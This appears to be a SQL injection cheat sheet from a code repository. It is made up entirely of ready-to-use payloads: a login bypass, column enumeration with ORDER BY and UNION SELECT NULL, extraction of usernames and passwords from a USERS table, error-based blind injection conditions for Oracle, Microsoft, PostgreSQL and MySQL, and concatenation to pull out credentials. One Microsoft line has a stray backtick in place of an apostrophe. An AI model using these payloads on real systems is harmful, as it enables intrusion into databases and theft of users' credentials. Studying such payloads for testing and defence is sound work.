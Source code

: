 ### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```
### Blind SQL
```
#Oracle  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
#Microsoft  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
#PostgreSQL  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
#MySQL  
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
